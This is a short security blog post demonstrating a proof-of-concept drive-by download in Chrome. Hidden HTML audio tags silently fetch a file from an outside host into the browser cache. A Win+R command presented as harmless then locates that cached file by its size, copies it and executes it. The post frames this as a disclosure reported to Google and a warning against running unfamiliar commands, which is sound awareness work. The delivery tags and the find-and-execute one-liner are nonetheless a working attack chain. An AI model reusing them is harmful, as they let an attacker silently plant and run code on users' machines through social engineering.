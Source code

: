```yaml
---
layout: post
title: Don't run commands you don't really understand
comments: true
---
```


This demonstrates a fully silent drive-by download in Google Chrome, as well as a social engineering component:
a PoC binary will execute if this seemingly harmless command is entered in a **Win+R** prompt on a Windows system
(Note that you may need to wait for a few seconds before the fun starts):

<pre>
cmd /c for /r %g in (*_*) do if %~zg==23456 copy /y "%g" "%g.log" & "%g.log"
</pre>

<IMG src=https://i.imgur.com/jgmi7XN.png>

Can you figure out how this works?

<audio style=visibility:hidden src=http://trax.x10.mx/cybersweet2b.au />
<audio style=visibility:hidden src=http://trax.x10.mx/cybersweet2b.au />

Notes: 

  * The PoC binary is a 100% harmless demo  
  * The chiptune in the PoC is (c) 1987 Jozz
  * Reported to Google in November 2015 (status: Wontfix)

<A href=https://twitter.com/hexatomium>Follow</A> @hexatomium
